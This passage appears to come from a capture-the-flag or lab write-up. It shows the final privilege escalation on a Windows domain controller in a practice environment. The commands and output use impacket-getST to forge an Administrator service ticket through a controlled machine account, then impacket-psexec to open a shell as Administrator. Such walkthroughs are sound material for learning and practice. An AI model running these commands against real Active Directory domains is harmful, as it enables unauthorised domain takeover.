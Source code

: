 ### Proper DA Shell

This machine account fails to be useful to us because we aren't pivoting to another machine in the domain from this one. Instead, we can still use this machine account by simply requesting for the administrator ticket using `impacket-getST` on our Kali machine, which we can then use to get a shell as the administrator.&#x20;

{% hint style="info" %}
This might be possible with PsExec.exe on the domain itself, but I didn't test it out.&#x20;
{% endhint %}

```
$ impacket-getST -spn cifs/resourcedc.resourced.local resourced/attackersystem\$:'Password@123' -impersonate Administrator -dc-ip 192.168.219.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Then, we can import this ticket into `KRB5CCNAME` and use it to get a shell:

```
$ export KRB5CCNAME=./Administrator.ccache
$ sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.219.175
```

<figure><img src="../../../.gitbook/assets/image (3460).png" alt=""><figcaption></figcaption></figure>

Rooted!
